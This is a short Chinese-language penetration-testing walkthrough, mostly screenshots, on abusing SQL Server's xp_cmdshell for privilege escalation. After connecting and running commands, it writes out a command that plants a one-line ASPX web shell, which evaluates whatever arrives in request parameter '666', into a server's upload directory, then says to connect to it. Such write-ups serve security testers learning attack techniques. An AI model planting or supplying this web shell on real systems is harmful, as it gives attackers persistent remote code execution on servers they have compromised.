 ### SQL Server XpCmdshell() 提权

使用工具连接成功

![](https://pic1.imgdb.cn/item/68d21cb0c5157e1a8829b5f0.png)

右键打开

![](https://pic1.imgdb.cn/item/68d21cc8c5157e1a8829b69a.png)

执行命令

![](https://pic1.imgdb.cn/item/68d21d0bc5157e1a8829b866.png)

通过命令写入 WebShell

```sql
echo|set /p="<%@ Page Language="Jscript"%>
<%eval(Request.Item["666"],"unsafe");%>" >> D:/web/upfile/affix/3.aspx
```

![](https://pic1.imgdb.cn/item/68d21d7fc5157e1a8829bbba.png)

后续开启 Web 服务直接连接即可